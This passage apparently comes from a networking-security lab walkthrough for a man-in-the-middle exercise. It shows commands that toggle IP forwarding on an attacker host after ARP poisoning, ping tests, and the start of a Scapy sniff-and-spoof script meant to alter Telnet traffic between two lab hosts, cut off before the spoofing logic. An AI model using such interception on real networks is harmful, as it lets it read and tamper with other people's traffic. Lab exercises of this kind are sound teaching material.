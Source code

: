 **Phase 2: Testing Forwarding**

4.  **Disable IP Forwarding on M:**
    ```bash
    # On Host M (7a593a72b7d6)
    sudo sysctl net.ipv4.ip_forward=0
    ```

5.  **Test Connectivity (Should Fail):**
    *   Try pinging B from A:
        ```bash
        # On Host A (fc50e4e36736)
        ping -c 3 10.9.0.6
        ```
    *   This ping should fail (timeout or destination unreachable) because Host M received the packets (due to ARP poisoning) but isn't forwarding them.

6.  **Enable IP Forwarding on M:**
    ```bash
    # On Host M (7a593a72b7d6)
    sudo sysctl net.ipv4.ip_forward=1
    ```

7.  **Test Connectivity (Should Succeed):**
    *   Try pinging B from A again:
        ```bash
        # On Host A (fc50e4e36736)
        ping -c 3 10.9.0.6
        ```
    *   This ping should now succeed because Host M is forwarding the packets between A and B.

**Phase 3: The MITM Attack**

8.  **Prepare the Sniff-and-Spoof Script:**
    *   On **Host M**, create a file named `mitm_telnet.py`.
    *   Paste the following code, which is based on the skeleton but includes the 'Q' to 'Z' replacement and uses `sendp` for more reliable L2 sending:

    ```python
    #!/usr/bin/env python3
    from scapy.all import *
    import sys # To flush output

    # Use values from settings.txt
    IP_A = "10.9.0.5"
    MAC_A = "02:42:0a:09:00:05"
    IP_B = "10.9.0.6"
    MAC_B = "02:42:0a:09:00:06"
    MAC_M = "02:42:0a:09:00:69" # Attacker MAC
